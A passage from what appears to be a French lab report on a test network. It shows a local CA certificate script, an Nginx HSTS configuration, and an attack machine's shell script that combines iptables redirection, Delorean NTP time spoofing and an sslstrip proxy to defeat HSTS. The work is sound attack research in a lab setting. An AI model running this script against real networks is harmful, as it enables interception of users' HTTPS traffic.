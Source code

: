 Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connections HTTPS a été généré avec openssl grâces aux scripts présents dans le dossier , et signé par notre autorité de certification par ce script :

\begin{verbatim}
#!/bin/sh

if test ! -f root-ca.pem || test ! -f root-ca.key
then
    echo "[-] First, create CA !"
    exit 1
fi

# Create private key
openssl genrsa -out cert.key 4096

# Create request
openssl req -new -key cert.key -out cert.csr

# Sign certificate with CA
openssl x509 -req -in cert.csr -CA root-ca.pem -CAkey root-ca.key -CAcreateserial -out cert.pem -days 365 -sha256

echo "[+] Your certificate: cert.pem"
echo "[+] Your private key: cert.key"
\end{verbatim}

Sur le serveur Nginx, nous avons configuré un domaine en http (), ainsi qu'un domaine en https (), sécurisé grâce à HSTS. La configuration de ce dernier se fait en rajoutant la ligne suivante dans le fichier de configuration de Nginx :

\begin{verbatim}
  add_header Strict-Transport-Security "max-age=31536000; includeSubDomains";
\end{verbatim}

Cette machine héberge également un serveur NTP. Nous avons simplement eu à installer le paquet ntpd pour que celui-ci soit lancé au démarrage.

\subsubsection{Machine immortal (147.210.12.2 - 147.210.13.1)}

C'est sur cette machine que se trouve le Proof-Of-Concept de l'attaque. Nous avons également utilisé le script Delorean comme décrit dans le papier de l'attaque afin d'usurper les requêtes NTP de la machine grave. L'attaque se lance grâce au script  :

\begin{verbatim}
#!/bin/sh

PROXY_PORT=4242
DELOREAN_PORT=4343

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT
iptables -t nat -A PREROUTING -p udp --destination-port 123 -j REDIRECT --to-port $DELOREAN_PORT

hsts_expire=$(curl -v https://www.opeth.secure --insecure 2>&1  | grep Strict | awk -F= '{print $2}' | awk -F\; '{print $1}')
hsts_expire=$(($hsts_expire / 60 + 1))

/mnt/host/delorean.py -p $DELOREAN_PORT -n -s ${hsts_expire}m &
/mnt/host/sslstrip-ntp.py $PROXY_PORT
\end{verbatim}

